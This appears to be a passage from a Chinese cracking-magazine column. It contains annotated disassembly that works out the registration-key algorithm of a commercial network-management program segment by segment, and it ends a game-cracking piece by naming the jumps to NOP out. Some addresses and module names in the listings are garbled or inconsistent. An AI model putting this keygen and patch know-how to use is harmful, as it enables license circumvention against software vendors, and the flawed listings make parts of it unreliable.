; 在类型方向数组取出方向值存入Ecx
00425377  mov eax,dword ptr ds:[edi+8]
; 从方向坐标数组中取出第三列——方向
0042537A  test eax,ecx
; 与运算,判断是否有此方向的接头
0042537C  je short RocketMa.004253F1 ; 没有则跳过
0042537E  mov eax,dword ptr ds:[edi]
; 方向坐标数组第一列纵坐标增量存入Eax
00425380  mov ebx,dword ptr ss:[ebp+C]
; 考察块纵坐标存入Ebx
00425383  mov ecx,dword ptr ds:[edi+4]
; 方向坐标数组第二列横坐标增量存入Ecx
00425386  mov edx,dword ptr ss:[ebp+8]
; 考察块横坐标存入Edx
00425389  add eax,ebx       ; 计算被连接块的纵坐标
0042538B  add ecx,edx       ; 计算被连接块的横坐标
0042538D  js short RocketMa.004253F1 ; 边界考察
................................
004253A3  lea edx,dword ptr ds:[eax+eax*2]
; 计算被连接块的地址
004253A6  lea edx,dword ptr ds:[ecx+edx*2]
004253A9  mov edx,dword ptr ds:[esi+edx*4+114]
; 被连接块地址存入Edx
004253B0  test edx,edx
004253B2  je short RocketMa.004253F1
004253B4  cmp dword ptr ds:[edx+64],1
; 被连接块是否已连通
004253B8  jnz short RocketMa.004253F1 ; 连通则跳
004253BA  mov ebx,dword ptr ds:[edx+74] ; 连接标志
004253BD  test ebx,ebx
004253BF  jnz short RocketMa.004253F1
; 连接火种或火箭则跳
004253C1  mov ebx,dword ptr ds:[edx+68]
; 被连接块类型
004253C4  mov edx,dword ptr ds:[edx+6C]
; 被连接块方向
004253C7  lea edx,dword ptr ds:[edx+ebx*4]
; 类型方向数组中的索引
004253CA  mov ebx,dword ptr ds:[edi+C]
; 从方向坐标数组中取出第四列
004253CD  mov edx,dword ptr ds:[edx*4+4C78B8]
; 方向值存入Edx
004253D4  test ebx,edx       ; 与运算,判断被连接块能否与当前块对接
004253D6  je short RocketMa.004253F1
; 不能对接则跳过
004253D8  mov edx,dword ptr ss:[ebp+1C]
................................
004253E8  push eax          ; Arg2: 方块纵坐标
004253E9  push ecx          ; Arg1: 方块横坐标
004253EA  mov ecx,esi       ; TTable 地址
```

```
004253BC  call <RocketMa.IsConToFire>;  递归调用
004253F1  add edi,10;  指向方向坐标数组的下一行
004253F4  cmp edi,RocketMa.004C7948
;是否到方向坐标数组末尾
004253FA  jl RocketMa.00425364;  跳到循环开头
............
00425406  retn 18
```

从上面中，我们可以看出游戏程序递归调用IsConToFire函数来判断所有的连接到火种或火箭的方块，再加上两个很不错的数组——类型方向数组和方向坐标数组，使程序简洁明了。十分值得借鉴！

程序就分析到这儿了，还有一些这儿就不说了，留给读者自己跟着。现在讲一下辅助程序的编写。辅助程序查找“疯狂火箭”的窗口，然后将其绑定，然后用读写内存和调试寄存器设置断点的方式来控制程序。程序在0042A5B3处用Dr0设断，以控制新生方块的类型。要注意的是游戏程序有许多变量都是显示和实际成对出现的，有的如果只改实际的而不改显示则会影响游戏界面的可靠程度，所以要改两个一起改。关于游戏的注册算法确实体现了他们公司团体的力量和体力，不难但很烦，笔者由于要工作了，所以没有足够的时间去写注册机，只是用辅助程序提供给游戏文件和内存打暴破补丁的功能。暴破点有两个，分别在00474AC5和00474ADC处，把这两处的跳转Nop掉就行了。辅助程序一个很好的功能是它能自动发射火箭，这是笔者模仿游戏程序的算法写的，所谓“师夷长技以制夷”。不同的是游戏是发现路径，而辅助程序是创造路径，所以创造的方法就格外重要。在Classic和Strategy游戏中，辅助程序先从与第4枚火箭相邻的方块开始，考察其能否与火箭相连。然后对IsConnect函数递归调用向火种方向连接其它方块（考察方块时设置其为被占用状态，以免被自己的线路打断），直到连接到火种或无路可走。接着就依次从IsConnect返回，若能连通则设置此线路上的方块为连通状态（以免被自己或其它线路打断）考察此线路上方块的其它能连方向上的方块，并继续向火箭方向连，以一次发射更多的火箭。若未能连通则恢复考察方块的不被占用状态。考察完一条线路再考察下一条。Arcade游戏与其它两种不同，是先从最后一行开始考察的。读者可以体会一下源程序。

差不多该收尾了，把版面留给更需要的人吧。最后笔者想谈谈软件破解的感想：很多时候破解的目的不在于破解自身，而是为了学习软件中的某些算法、某些好的东西，这样才能编出更好的程序。

Icefire：随着现在软件保护意识的加强，越来越多的软件开始使用强加密手段。花指令，高级算法，循环，模糊技术，加密狗等等。但是智者千虑，必有一失。就算再强大的数学知识，在计算机领域也不能确保软件在系统中拥有坚固的防护，硬件问题，字符串转换，都对其有很大的影响。本文的作者就是犯了这么一个毛病，在计算上花费了大量功夫，可程序依然被轻松搞定。

适合读者：破解爱好者，程序员
前置知识：汇编基本阅读能力

#### 强有力篇 否则一切休提

#### 奥特网络管理专家V1.6注册算法分析

文/图 laoxuetong

##### 软件简介

奥特网络管理专家是一款专业的局域网网络管理、监控软件，只需局域网内的一台计算机（除网关外）上运行，不需要安装客户端，即可穿透各用户防火墙，监控和管理整个网络所有计算机上网及网络流量情况。包括记录每台机器的上下机时间，根据时间规则对网络内的机器分配上网时间，进行上网限制管理。系统全自动搜索局域网内所有机器的当前状态。

##### 注册码校验流程详解

##### 注册与验证简析

```
004F9CC4  PUSH EBP
004F9CC5  MOV EBP,ESP
004F9CC7  MOV ECX,40
004F9CCC  PUSH 0
004F9CCE  PUSH 0
004F9CD0  DEC ECX
004F9CD1  JNZ SHORT atlancdu.004F9CCC
004F9CD3  PUSH EBX
004F9CD4  PUSH ESI
004F9CD5  PUSH EDI
004F9CD6  MOV DWORD PTR SS:[EBP-4],EAX
004F9CD9  MOV EBX,atlancdu.005391B0
004F9CDE  XOR EAX,EAX
004F9CE0  PUSH EBP
004F9CE1  PUSH atlancdu.004FA942
```

软件在注册流程中，并没有对注册码的真实性作出评判，只是将使用者输入的注册信息完整地写入注册表。随后要求进行重启，故属于典型的重启验证型。

## SECRET OF CRACK

> 栏目编辑 \ icefire \ icefire@hacker.com.cn

```asm
004F9CE6   PUSH DWORD PTR FS:[EAX]
004F9CE9   MOV DWORD PTR FS:[EAX],ESP
004F9CEC   XOR EDX,EDX
004F9CEE   PUSH EBP
004F9CEF   PUSH atlanclu.004FA8E3
004F9CF4   PUSH DWORD PTR FS:[EDX]
004F9CF7   MOV DWORD PTR FS:[EDX],ESP
004F9CFA   MOV DL,1
004F9CFC   MOV EAX,DWORD PTR DS:[41AF84]
004F9D01   CALL atlanclu.00403BA8
004F9D06   MOV DWORD PTR DS:[50E630],EAX
004F9D0B   MOV EDX,atlanclu.004FA958   ; 试用版
004F9D10   MOV EAX,DWORD PTR SS:[EBP-4]
004F9D13   CALL atlanclu.0044B1AC
004F9D18   PUSH 100                  ; /BufSize = 100 (256.)
004F9D1D   LEA EAX,DWORD PTR SS:[EBP-12C] ; |
004F9D23   PUSH EAX                  ; |Buffer
004F9D24   CALL <JMP.&kernel32.GetSystemDirecto>
; \GetSystemDirectoryA
004F9D29   LEA EDX,DWORD PTR SS:[EBP-1A4]
004F9D2F   LEA EAX,DWORD PTR SS:[EBP-12C]
004F9D35   CALL atlanclu.00409DC8
004F9D3A   MOV EDX,DWORD PTR SS:[EBP-1A4]
004F9D40   MOV EAX,atlanclu.005391AC
004F9D45   CALL atlanclu.00404AFC
004F9D4A   MOV DL,1
004F9D4C   MOV EAX,DWORD PTR DS:[472538]
004F9D51   CALL atlanclu.00472638
004F9D56   MOV DWORD PTR DS:[EBX],EAX
004F9D58   MOV EDX,80000001
004F9D5D   MOV EAX,DWORD PTR DS:[EBX]
004F9D5F   CALL atlanclu.004726D8
004F9D64   MOV CL,1
004F9D66   MOV EDX,atlanclu.004FA980
; ASCII "Software\aotosof\atnetcomtorl"
004F9D6B   MOV EAX,DWORD PTR DS:[EBX]
004F9D6D   CALL atlanclu.0047273C
004F9D72   LEA ECX,DWORD PTR SS:[EBP-8]
004F9D75   MOV EDX,atlanclu.004FA9A8
; ASCII "Name"
004F9D7A   MOV EAX,DWORD PTR DS:[EBX]
004F9D7C   CALL atlanclu.00472924
; 从注册表中读取名称
004F9D81   LEA ECX,DWORD PTR SS:[EBP-C]
004F9D84   MOV EDX,atlanclu.004FA9B8
; ASCII "code"
004F9D89   MOV EAX,DWORD PTR DS:[EBX]
004F9D8B   CALL atlanclu.00472924
; 从注册表中读取注册码
```

从注册表中读取注册名和注册码。

```asm
004F9D90   MOV EAX,DWORD PTR DS:[EBX]
004F9D92   CALL atlanclu.004726A8
004F9D97   CALL atlanclu.004F7E38
004F9D9C   CALL atlanclu.004F7E38
004F9DA1   MOV DWORD PTR SS:[EBP-10],EAX
004F9DA4   CMP DWORD PTR SS:[EBP-8],0
; 名称是否读取？
004F9DA8   JE SHORT atlanclu.004F9DB0
004F9DAA   CMP DWORD PTR SS:[EBP-C],0
; 注册码是否读取？
004F9DAE   JNZ SHORT atlanclu.004F9E2B
; 都已读取，跳过
检验是否存在相关信息。
```

```asm
004F9DB0   MOV BYTE PTR DS:[50E648],0
; 未注册或未成功注册标志
004F9DB7   CMP DWORD PTR SS:[EBP-10],1E
; 使用次数判断
004F9DBD   JL SHORT atlanclu.004F9E09
004F9DBD   MOV ECX,DWORD PTR DS:[50E7AC]
; atlanclu.0050FF34
004F9DC3   MOV EAX,DWORD PTR DS:[50EA88]
004F9DC8   MOV EAX,DWORD PTR DS:[EAX]
004F9DCA   MOV EDX,DWORD PTR DS:[4F646C]
; atlanclu.004F6488
004F9DD0   CALL atlanclu.0046C0B4
004F9DD5   MOV EAX,DWORD PTR DS:[50E7AC]
004F9DDA   MOV EAX,DWORD PTR DS:[EAX]
004F9DDC   MOV EDX,DWORD PTR DS:[EAX]
004F9DDE   CALL NEAR DWORD PTR DS:[EDX+E8]
004F9DE4   MOV EAX,DWORD PTR DS:[50E7AC]
004F9DE9   MOV EAX,DWORD PTR DS:[EAX]
004F9DEB   CALL atlanclu.00403BD8
004F9DF0   MOV EAX,DWORD PTR DS:[50EA88]
004F9DF5   MOV EAX,DWORD PTR DS:[EAX]
004F9DF7   CALL atlanclu.0046C220
004F9DFC   XOR EAX,EAX
004F9DFE   POP EDX
004F9DFF   POP ECX
004F9E00   POP ECX
004F9E01   MOV DWORD PTR FS:[EAX],EDX
004F9E04   JMP atlanclu.004FA8FA
004F9E09   CMP DWORD PTR SS:[EBP-10],0F
; 根据使用次数确定是否提示
004F9E0D   JLE atlanclu.004FA5E8
004F9E13   PUSH 30                   ; /Style = MB_OK|MB_ICONEXCLAMATION|MB_APPLMODAL
004F9E15   PUSH atlanclu.004FA9C0
; |Title = "系统提示"
004F9E1A   PUSH atlanclu.004FA9CC
; |Text = "你的试用期快到了,请及时注册!"
004F9E1F   PUSH 0                    ; |hOwner = NULL
004F9E21   CALL <JMP.&user32.MessageBoxA>
; \MessageBoxA
004F9E26   JMP atlanclu.004FA5E8
```

如果已经注册，则跳到此此处。

```asm
004F9E2B   MOV BYTE PTR DS:[50E648],0
; 跳到此此处
004F9E32   LEA EAX,DWORD PTR SS:[EBP-1C]
004F9E35   MOV EDX,DWORD PTR SS:[EBP-C]
; 指向注册码
004F9E38   CALL atlanclu.00404B40
004F9E3D   MOV EDX,DWORD PTR SS:[EBP-1C]
004F9E40   MOV EAX,atlanclu.004FA9F4
004F9E45   CALL atlanclu.0040509C
; 第一次查找节分符－
004F9E4A   MOV EBX,EAX
004F9E4C   LEA EAX,DWORD PTR SS:[EBP-20]
004F9E4F   PUSH EAX
004F9E50   MOV ECX,EBX
004F9E52   DEC ECX
004F9E53   MOV EDX,1
004F9E58   MOV EAX,DWORD PTR SS:[EBP-1C]
```

```
；指向注册码
004F9E3B    CALL    atlancdu.00404FB8    ；分离第一节
004F9E60    LEA EAX,DWORD PTR SS:[EBP-1C]
004F9E63    MOV ECX,EBX
004F9E65    MOV EDX,1
004F9E6A    CALL    atlancdu.00404FF8
004F9E6F    MOV EDX,DWORD PTR SS:[EBP-1C]
；指向注册码
004F9E72    MOV EAX,atlancdu.004FA9F4
004F9E77    CALL    atlancdu.0040509C
；第二次查找分节符
004F9E7C    MOV EBX,EAX
004F9E7E    LEA EAX,DWORD PTR SS:[EBP-24]
004F9E81    PUSH EAX
004F9E82    MOV ECX,EBX
004F9E84    DEC ECX
004F9E85    MOV EDX,1
004F9E8A    MOV EAX,DWORD PTR SS:[EBP-1C]
004F9E8D    CALL    atlancdu.00404FB8    ；分离第二节
004F9E92    LEA EAX,DWORD PTR SS:[EBP-1C]
004F9E95    MOV ECX,EBX
004F9E97    MOV EDX,1
004F9E9C    CALL    atlancdu.00404FF8
004F9EA1    MOV EDX,DWORD PTR SS:[EBP-1C]
004F9EA4    MOV EAX,atlancdu.004FA9F4
004F9EA9    CALL    atlancdu.0040509C
；第三次查找分节符
```

从上面的过程可以看到，软件进行过3次查找分节符，所以注册码应该分为四段，形如 xxxxxxx-xxxxxxx-xxxxxxx-xxxxxxx每段的长度可能各不相同。经过上述步骤后，注册码被截为4段。

```
004F9EAE    MOV EBX,EAX
004F9EB0    LEA EAX,DWORD PTR SS:[EBP-28]
004F9EB3    PUSH EAX
004F9EB4    MOV ECX,EBX
004F9EB6    DEC ECX
004F9EB7    MOV EDX,1
004F9EBC    MOV EAX,DWORD PTR SS:[EBP-1C]
004F9EBF    CALL    atlancdu.00404FB8
；分离第3、4节
004F9EC4    LEA EAX,DWORD PTR SS:[EBP-1C]
004F9EC7    MOV ECX,EBX
004F9EC9    MOV EDX,1
004F9ECE    CALL    atlancdu.00404FF8
004F9ED3    LEA EAX,DWORD PTR SS:[EBP-2C]
004F9ED6    MOV EDX,DWORD PTR SS:[EBP-1C]
004F9ED9    CALL    atlancdu.00404B40
004F9EDE    MOV EAX,DWORD PTR SS:[EBP-8]
004F9EE1    CALL    atlancdu.00404D60
```

#### 名称预处理

```
004F9EE6    PUSH EAX
004F9EE7    PUSH 0
004F9EE9    MOV EAX,DWORD PTR SS:[EBP-8]
；指向名称
004F9EEC    CALL    atlancdu.00404F58
004F9EF1    PUSH EAX
004F9EF2    CALL    atlancdu.004F6CFC
```

```
；转换成大写--中文名称取首字母转化成大写
004F9EF7    MOV EDX,EAX    ；转移结果
004F9EF9    LEA EAX,DWORD PTR SS:[EBP-14]
004F9EFC    CALL    atlancdu.00404C98    ；转移
004F9F01    LEA EAX,DWORD PTR SS:[EBP-1A8]
004F9F07    MOV ECX,atlancdu.004FAA00
；ASCII "control"
004F9F0C    MOV EDX,DWORD PTR SS:[EBP-14]
；指向保存位置
004F9F0F    CALL    atlancdu.00404DAC
；在名称后面附加control
004F9F14    MOV EDX,DWORD PTR SS:[EBP-1A8]
；指向新结果
```

如果注册名是英文，则将其全部字符转化成大写，并在尾部附加control，形成 名称control的形式。若名称为中文，则取其汉语拼音的首字符并转换成大写。形成结果NAMEcontrol，形成计算注册码的初始数据。

#### 注册码第一段

```
004F9F1A    MOV EAX,DWORD PTR SS:[EBP-4]
004F9F1D    MOV EAX,DWORD PTR DS:[EAX+3D0]
004F9F23    CALL    atlancdu.004ED398
；名称SHA 1计算
```

这里的计算不仅仅是SHA 1，SHA 1加密变换后对所得的数据进行了再处理。结果也从160bit转化为128bit。其加密算法也相当复杂，共进行了132次循环。

这个小循环的作用是将名称SHA 1的运算结果再行加密后的结果字符化。

```
004F9FDB    LEA ECX,DWORD PTR SS:[EBP-1AC]
004F9FE1    XOR EAX,EAX
004F9FE3    MOV AL,BYTE PTR DS:[EBX]
004F9FE5    MOV EDX,2
004F9FEA    CALL    atlancdu.004096B8
004F9FEF    MOV EDX,DWORD PTR SS:[EBP-1AC]
004F9FF5    LEA EAX,DWORD PTR SS:[EBP-18]
004F9FF8    CALL    atlancdu.00404D68
004F9FFD    INC EBX
004F9FFE    DEC ESI
004F9FFF    JNZ SHORT atlancdu.004F9FDB    ；循环
004FA001    MOV EAX,DWORD PTR SS:[EBP-18]
；指向计算结果
004FA004    CALL    atlancdu.00404D60    ；长度
004FA009    CMP EAX,0F
004FA00C    JLE SHORT atlancdu.004FA026
004FA00E    LEA EAX,DWORD PTR SS:[EBP-18]
004FA011    PUSH EAX
004FA012    MOV ECX,6    ；截取长度
004FA017    MOV EDX,4    ；开始位置
004FA01C    MOV EAX,DWORD PTR SS:[EBP-18]
；指向计算结果
004FA01F    CALL    atlancdu.00404FB8
；截取4---9位共6位
004FA024    JMP SHORT atlancdu.004FA03C
004FA026    LEA EAX,DWORD PTR SS:[EBP-18]
004FA029    PUSH EAX
004FA02A    MOV ECX,6
```


```
004FA02F MOV EDX,1
004FA034 MOV EAX,DWORD PTR SS:[EBP-18]
004FA037 CALL atlancdu.00404FB8
004FA03C MOV EAX,DWORD PTR SS:[EBP-20]
; 指向注册码
004FA03F MOV EDX,DWORD PTR SS:[EBP-18]
; 指向分离结果
004FA042 CALL atlancdu.00404EA4 ; 第一次比较
```

关键比较1: 注册码的第一段与SHA 1计算结果的4-9比较。所以注册码第一段为名称SHA1结果的4-9共6位。注册码第二段：

```
004FA047 JNZ atlancdu.004FA57D
004FA04D LEA EAX,DWORD PTR SS:[EBP-1B0]
004FA053 PUSH EAX
004FA054 MOV ECX,2
004FA059 MOV EDX,1
004FA05E MOV EAX,DWORD PTR SS:[EBP-24]
; 指向注册码第二段——离7位
004FA061 CALL atlancdu.00404FB8 ; 分离前两位
004FA066 MOV EAX,DWORD PTR SS:[EBP-1B0]
; 指向前两位
004FA06C CALL atlancdu.004F7CEC ; 转化成整数
004FA071 MOV EBX,EAX ; 转移结果
004FA073 LEA EAX,DWORD PTR SS:[EBP-1B4]
004FA079 PUSH EAX
004FA07A MOV ECX,2
004FA07F MOV EDX,3
004FA084 MOV EAX,DWORD PTR SS:[EBP-24]
; 指向第二段
004FA087 CALL atlancdu.00404FB8 ; 分离3~4位
004FA08C MOV EAX,DWORD PTR SS:[EBP-1B4]
004FA092 CALL atlancdu.004F7CEC ; 转化成整数
004FA097 MOV ESI,EAX ; 转移结果
004FA099 LEA EAX,DWORD PTR SS:[EBP-1B8]
004FA09F PUSH EAX
004FA0A0 MOV ECX,3
004FA0A5 MOV EDX,5
004FA0AA MOV EAX,DWORD PTR SS:[EBP-24]
; 指向第二段
004FA0AD CALL atlancdu.00404FB8 ; 分离5~6位
004FA0B2 MOV EAX,DWORD PTR SS:[EBP-1B8]
004FA0B8 CALL atlancdu.004F7CEC ; 转化成整数
004FA0BD MOV EDI,EAX ; 转移结果
004FA0BF LEA EAX,DWORD PTR SS:[EBP-1BC]
004FA0C5 PUSH EAX ;/Arg1
004FA0C6 MOV DWORD PTR SS:[EBP-1D4],EDI
; 结果3
004FA0CC MOV BYTE PTR SS:[EBP-1D0],0 ;
004FA0D3 MOV DWORD PTR SS:[EBP-1CC],ESI
; 结果2
004FA0D9 MOV BYTE PTR SS:[EBP-1C8],0 ;
004FA0E0 MOV DWORD PTR SS:[EBP-1C4],EBX
; 结果1
004FA0E6 MOV BYTE PTR SS:[EBP-1C0],0 ;
004FA0ED LEA EDX,DWORD PTR SS:[EBP-1D4] ;
004FA0F3 MOV ECX,2 ;
004FA0F8 MOV EAX,atlancdu.004FAA10
; ASCII "%d-%d-%d"
004FA0FD CALL atlancdu.0040A344 ;\格式化输出
```

```
004FA102 MOV EAX,DWORD PTR SS:[EBP-1BC]
; 指向注册结果
004FA108 CALL atlancdu.0040CA70
; 对格式化结果处理,转化成:2005-7-27
004FA10D ADD ESP,-8 ;/
004FA110 FSTP QWORD PTR SS:[ESP]
; | 保存计算结果
004FA113 WAIT ;|
004FA114 LEA EDX,DWORD PTR SS:[EBP-14] ; |
004FA117 MOV EAX,atlancdu.004FAA24
; ASCII "YYYYMMDD"
004FA11C CALL atlancdu.0040C268
; \日期转化成20050727
004FA121 MOV EAX,DWORD PTR SS:[EBP-4]
004FA124 MOV EAX,DWORD PTR DS:[EAX+3CC]
004FA12A MOV EDX,DWORD PTR SS:[EBP-14]
; 指向日期20050727
```

根据对第二节数据的处理和字符串“YYYYMMDD”的意思理解,注册码第二段为注册日期。结构形式为:年4位月2位日2位。其中年号转换为hex是3位,月2位,日2位,不足补0,故注册码第2段为7位字符。而且排列顺序为:日_月_年。注册码第三段:

```
004FA12D CALL atlancdu.004ED398 ; SHA 1计算
004FA132 MOV EAX,DWORD PTR SS:[EBP-4]
; 注意下面还有一个hash运算
004FA135 MOV EAX,DWORD PTR DS:[EAX+3CC]
004FA13B MOV EDX,DWORD PTR DS:[EAX]
004FA13D CALL NEAR DWORD PTR DS:[EDX+48]
004FA140 PUSH DWORD PTR SS:[EBP-20]
004FA143 PUSH atlancdu.004FA9F4
004FA148 PUSH DWORD PTR SS:[EBP-24]
004FA14B LEA EAX,DWORD PTR SS:[EBP-1D8]
004FA151 MOV EDX,3
004FA156 CALL atlancdu.00404E20
004FA15B MOV EDX,DWORD PTR SS:[EBP-1D8]
004FA161 LEA ECX,DWORD PTR SS:[EBP-14]
004FA164 MOV EAX,DWORD PTR SS:[EBP-4]
004FA167 MOV EAX,DWORD PTR DS:[EAX+3CC]
004FA16D MOV EBX,DWORD PTR DS:[EAX]
004FA16F CALL NEAR DWORD PTR DS:[EBX+54]
; 对注册码前两节进行计算
```

注册码前两节包括连接符“-”共14字符（字节）。先按字节对变换注册码进行变换,得到14字节数据,再3字节->4字符转换。

```
004FA172 MOV EAX,DWORD PTR SS:[EBP-14]
; 指向转换结果
004FA175 CALL atlancdu.00404D60
004FA17A MOV EBX,EAX
004FA17C SAR EBX,1
004FA17E JNS SHORT atlancdu.004FA183
004FA180 ADC EBX,0
004FA183 LEA EAX,DWORD PTR SS:[EBP-18]
004FA186 PUSH EAX
004FA187 MOV ESI,EBX
004FA189 SAR ESI,1
004FA18B JNS SHORT atlancdu.004FA190
```

```
004FA18D   ADC ESI,0
004FA190   MOV EDX,EBX
004FA192   SUB EDX,ESI
004FA194   MOV ECX,ESI
004FA196   ADD ECX,EBX
004FA198   MOV EAX,DWORD PTR SS:[EBP-14]
004FA19B   CALL atlancdu.00404FB8
004FA1A0   MOV EAX,DWORD PTR SS:[EBP-4]
004FA1A3   MOV EAX,DWORD PTR DS:[EAX+3D4]
004FA1A9   MOV EDX,DWORD PTR DS:[EAX]
004FA1AB   CALL NEAR DWORD PTR DS:[EDX+40]
004FA1AE   MOV EAX,DWORD PTR SS:[EBP-4]
004FA1B1   MOV EAX,DWORD PTR DS:[EAX+3D4]
004FA1B7   MOV EDX,DWORD PTR SS:[EBP-18]
004FA1BA   CALL atlancdu.004EDFB8
004FA1BF   LEA EDX,DWORD PTR SS:[EBP-14C]
004FA1C5   MOV EAX,DWORD PTR SS:[EBP-4]
004FA1C8   MOV EDX,DWORD PTR DS:[EAX+3D4]
004FA1CE   MOV ECX,DWORD PTR DS:[EAX]
004FA1D0   CALL NEAR DWORD PTR DS:[ECX+44]
；对上述所的字符串进行MD5计算，参与的是第从5个开始的14个字符
004FA1D3   MOV EAX,DWORD PTR SS:[EBP-4]
004FA1D6   MOV EAX,DWORD PTR DS:[EAX+3D4]
004FA1DC   MOV EDX,DWORD PTR DS:[EAX]
004FA1DE   CALL NEAR DWORD PTR DS:[EDX+38]
004FA1E1   MOV EBX,EAX
004FA1E3   LEA EAX,DWORD PTR SS:[EBP-18]
004FA1B6   CALL atlancdu.00404AA8
004FA1EB   MOV ESI,EBX
004FA1BD   TEST ESI,ESI
004FA1EF   JNS SHORT atlancdu.004FA1F4
004FA1F1   ADD ESI,7
004FA1F4   SAR ESI,3
004FA1F7   DEC ESI
004FA1F8   TEST ESI,ESI
004FA1FA   JL SHORT atlancdu.004FA229
004FA1FC   INC ESI
004FA1PD   LEA EBX,DWORD PTR SS:[EBP-14C]
；MD5数据保存位置
004FA203   LEA ECX,DWORD PTR SS:[EBP-1DC]
；这里一个小循环，将MD5结果字符化
004FA209   XOR EAX,EAX
004FA20B   MOV AL,BYTE PTR DS:[EBX]
004FA20D   MOV EDX,2
004FA212   CALL atlancdu.004096B8
004FA217   MOV EDX,DWORD PTR SS:[EBP-1DC]
004FA21D   LEA EAX,DWORD PTR SS:[EBP-18]
004FA220   CALL atlancdu.00404D68
004FA225   INC EBX
004FA226   DEC ESI
004FA227   JNZ SHORT atlancdu.004FA203 ;循环
004FA229   MOV EAX,DWORD PTR SS:[EBP-18]
004FA22C   CALL atlancdu.00404D60
004FA231   CMP EAX,0F
004FA234   JLE SHORT atlancdu.004FA24E
004FA236   LEA EAX,DWORD PTR SS:[EBP-18]
004FA239   PUSH EAX
004FA23A   MOV ECX,6 ;截取6位
004FA23F   MOV EDX,4 ;从第4位开始
004FA244   MOV EAX,DWORD PTR SS:[EBP-18]
```

```
；指向注册码前两节的MD5结果
004FA247   CALL atlancdu.00404FB8
```

截取MD5的4—9位，设为yyyyyy。

```
004FA24C   JMP SHORT atlancdu.004FA264
004FA24E   LEA EAX,DWORD PTR SS:[EBP-18]
004FA251   .PUSH EAX
004FA252   MOV ECX,6
004FA257   MOV EDX,1
004FA25C   MOV EAX,DWORD PTR SS:[EBP-18]
004FA25F   CALL atlancdu.00404FB8
004FA264   LEA EAX,DWORD PTR SS:[EBP-1E0]
004FA26A   MOV ECX,DWORD PTR SS:[EBP-28]
；注册码第3节
004FA26D   MOV EDX,atlancdu.004FAA38
004FA272   CALL atlancdu.00404DAC
；转化成$xxxxxx
004FA277   MOV EAX,DWORD PTR SS:[EBP-1E0]
；结果
004FA27D   CALL atlancdu.004096F4 ;转化成整数
004FA282   MOV EBX,EAX ;转移结果
004FA284   LEA EAX,DWORD PTR SS:[EBP-1E4]
004FA28A   MOV ECX,DWORD PTR SS:[EBP-18]
；指向前两节的MD5值的4——9位
```

将注册码前两节的MD5结果的4-9位(计6位)作计算用户数的基数。

```
004FA28D   MOV EDX,atlancdu.004FAA38
004FA292   CALL atlancdu.00404DAC
；构造$yyyyyy
004FA297   MOV EAX,DWORD PTR SS:[EBP-1E4]
；指向结果
004FA29D   CALL atlancdu.004096F4 ;专户化成整数
004FA2A2   SUB EBX,EAX ;$xxxxxx-$yyyyyy
004FA2A4   MOV DWORD PTR DS:[50E644],EBX
；保存差一重要数据——注册用户数
004FA2AA   MOV EAX,DWORD PTR DS:[50E644]
；读出来
004FA2AF   MOV DWORD PTR DS:[50E638],EAX
；另存
004FA2B4   MOV EAX,DWORD PTR SS:[EBP-18]
；指向$yyyyyy
004FA2B7   CALL atlancdu.004F7CEC
；按十六进制方式转换成整数
004FA2BC   MOV ESI,EAX ;转移
004FA2BE   ADD ESI,EBX ;结果与上述差相加
004FA2C0   LEA ECX,DWORD PTR SS:[EBP-18]
004FA2C3   MOV EDX,2
004FA2C8   MOV EAX,ESI ;转移和
004FA2CA   CALL atlancdu.004096B8
；和转化成hex字符
004FA2CF   MOV EAX,DWORD PTR SS:[EBP-28]
；指向注册码第三段
004FA2D2   MOV EDX,DWORD PTR SS:[EBP-18]
；指向计算结果
004FA2D5   CALL atlancdu.00404EA4 ;二次比较
```

这里计算注册用户数的计算方法是：$ 第3段-$yyyyyy=注册用户数。所以$第3段=注册用户数+$yyyyyy。即第3段=hex($yyyyyy+用户数)。可以看出，

这里的比较不是必需的，关键是要从中得到注册用户数。注册码第四段：

```
004FA2DA  JNZ atlanctu.004FA527
004FA2E0  MOV EAX,DWORD PTR SS:[EBP-4]
004FA2E3  MOV EAX,DWORD PTR DS:[EAX+3D4]
004FA2E9  MOV EDX,DWORD PTR DS:[EAX]
004FA2EB  CALL NEAR DWORD PTR DS:[EDX+40]
004FA2EE  PUSH DWORD PTR SS:[EBP-20]
004FA2F1  PUSH atlanctu.004FA9F4
004FA2F6  PUSH DWORD PTR SS:[EBP-24]
004FA2F9  PUSH atlanctu.004FA9F4
004FA2FE  PUSH DWORD PTR SS:[EBP-28]
004FA301  LEA EAX,DWORD PTR SS:[EBP-1E8]
004FA307  MOV EDX,5
004FA30C  CALL atlanctu.00404E20
```

； 初始化MD5，拼接注册码前3段

```
004FA311  MOV EDX,DWORD PTR SS:[EBP-1E8]
004FA317  MOV EAX,DWORD PTR SS:[EBP-4]
004FA31A  MOV EAX,DWORD PTR DS:[EAX+3D4]
004FA320  CALL atlanctu.004EDFB8
```

； 组建MD5S-box

```
004FA325  LEA EDX,DWORD PTR SS:[EBP-14C]
004FA32B  MOV EAX,DWORD PTR SS:[EBP-4]
004FA32E  MOV EAX,DWORD PTR DS:[EAX+3D4]
004FA334  MOV ECX,DWORD PTR DS:[EAX]
004FA336  CALL NEAR DWORD PTR DS:[ECX+44]
； MD5计算
```

这里是将注册码前3段xxxxxxxx-xxxxxxxx-xxxxxxxx进行MD5加密。

```
004FA339  MOV EAX,DWORD PTR SS:[EBP-4]
004FA33C  MOV EAX,DWORD PTR DS:[EAX+3D4]
004FA342  MOV EDX,DWORD PTR DS:[EAX]
004FA344  CALL NEAR DWORD PTR DS:[EDX+38]
004FA347  MOV EBX,EAX
004FA349  LEA EAX,DWORD PTR SS:[EBP-18]
004FA34C  CALL atlanctu.00404AA8
004FA351  MOV ESI,EBX
004FA353  TEST ESI,ESI
004FA355  JNS SHORT atlanctu.004FA35A
004FA357  ADD ESI,7
004FA35A  SAR ESI,3
004FA35D  DEC ESI
004FA35E  TEST ESI,ESI
004FA360  JL SHORT atlanctu.004FA38F
004FA362  INC ESI
004FA363  LEA EBX,DWORD PTR SS:[EBP-14C]
； 数据保存位置——小循环
004FA369  LEA ECX,DWORD PTR SS:[EBP-1EC]
004FA36F  XOR EAX,EAX
004FA371  MOV AL,BYTE PTR DS:[EBX]
004FA373  MOV EDX,2
004FA378  CALL atlanctu.004096B8
004FA37D  MOV EDX,DWORD PTR SS:[EBP-1EC]
004FA383  LEA EAX,DWORD PTR SS:[EBP-18]
004FA386  CALL atlanctu.00404D68
004FA38B  INC EBX
004FA38C  DEC ESI
004FA38D  JNZ SHORT atlanctu.004FA369    ； 循环
```

这个小循环的作用是将MD5结果转化成字符。

```
004FA38F  MOV EAX,DWORD PTR SS:[EBP-18]
004FA392  CALL atlanctu.00404D60
004FA397  CMP EAX,0F
